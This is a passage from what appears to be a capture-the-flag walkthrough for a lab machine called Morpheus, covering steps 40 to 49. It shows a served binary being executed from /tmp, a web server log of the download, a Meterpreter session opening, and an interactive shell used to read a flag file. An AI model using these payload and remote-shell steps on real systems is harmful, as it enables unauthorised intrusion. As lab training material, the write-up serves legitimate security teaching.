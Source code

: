     ```shell
    chmod 755 /tmp/mrsbin ; /tmp/mrsbin
    ```

41. The browser will seem to be stuck loading the page for a long time.  This is good.  If you checked out your Python web server's output, you'll see that it has logged a `GET` request from the Morpheus machine, requesting the `mrsbin` binary:

    ```
    $ python3 -m http.server 8000
    Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
    10.23.58.78 - - [05/Aug/2022 02:47:40] "GET /mrsbin HTTP/1.1" 200 -
    ```

42. Go check your Metasploit console. You should now see a line that reads something like "Meterpreter session 1 opened…"

43. Interact with this new session:

    ```shell
    sessions -i 1
    ```

44. Instruct meterpreter to give you a minimal interactive shell. You won't get any immediate feedback from the system, just a "Process … created" and "Channel … created" line from Metasploit.

    ```shell
    shell
    ```

45. Make the shell more interactive by starting a bash process with the `-i` flag:

    ```shell
    bash -i
    ```

46. List out the contents of this directory.

    ```shell
    ls
    ```

47. There's nothing interesting here, so change to the `/` (root) directory.

    ```shell
    cd /
    ```

48. Take a look at the contents of this directory:

    ```shell
    ls
    ```

49. Take a look at the `FLAG.txt` file:

    ```shell
    cat /FLAG.txt
    ```
